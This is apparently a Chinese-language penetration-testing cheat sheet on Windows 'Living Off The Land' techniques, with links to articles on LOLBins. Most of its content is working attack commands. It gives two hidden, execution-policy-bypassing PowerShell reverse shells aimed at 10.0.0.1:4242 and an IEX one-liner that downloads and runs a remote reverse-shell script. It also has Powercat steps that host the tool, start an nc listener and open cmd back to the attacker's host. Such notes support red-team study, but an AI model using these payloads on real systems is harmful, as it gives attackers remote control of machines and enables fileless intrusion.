 
# 漏洞利用

- [OS-Exploits](./OS-Exploits.md#Windows)

---

# LOL

`Living Off The Land`

**相关文章**
- [Get Reverse-shell via Windows one-liner](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)
- [What Are LOLBins and How Do Attackers Use Them in Fileless Attacks? - Cynet](https://www.cynet.com/attack-techniques-hands-on/what-are-lolbins-and-how-do-attackers-use-them-in-fileless-attacks/)

**相关资源**
- [LOLBAS](https://lolbas-project.github.io/)

## PowerShell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```

**Powercat.exe**

Powercat 是 PowerShell 的本机后门侦听器和 reverse shel，也称为 netcat 的修改版本，因为它集成了对生成的编码 Payload 的支持，msfvenom 可以做到这一点，并且还具有客户端到客户端的中继(Powercat 客户端的术语，允许连接两个单独的侦听器)。

攻击端
```bash
git clone https://github.com/besimorhino/powercat.git
cd powercat
python -m SimpleHTTPServer 80

nc -lvp 1234
```
目标端
```bash
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/powercat.ps1');powercat -c 192.168.1.109 -p 1234 -e cmd"
```

